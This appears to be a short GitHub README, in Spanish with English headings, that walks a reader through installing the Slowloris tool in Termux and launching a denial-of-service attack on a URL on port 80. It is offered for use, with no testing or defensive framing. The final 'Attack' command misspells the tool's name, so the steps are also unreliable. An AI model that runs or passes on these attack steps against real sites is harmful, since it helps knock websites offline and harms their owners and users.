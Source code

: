 # Slowloris-DDos---Termux
Instalación y ataque DDos en termux 

# Attack DDOS with Slowloris in Termux


# Línea de comandos:
_Necesarios en cada entrada a termux_:
1.- pkg update 

2.- pkg upgrade

_Instalación y actualización de pip_:
3.- pip install --upgrade pip

_Instalacion de python, para poder ejecutar el programa_:
4.- pkg install python 

_Instalación de slowloris_:
5.- pip install slowloris 

_~Attack_:
6.- slowaris -p 80 -s 15 URL 

_By_
*_#D4rKM1nD_*
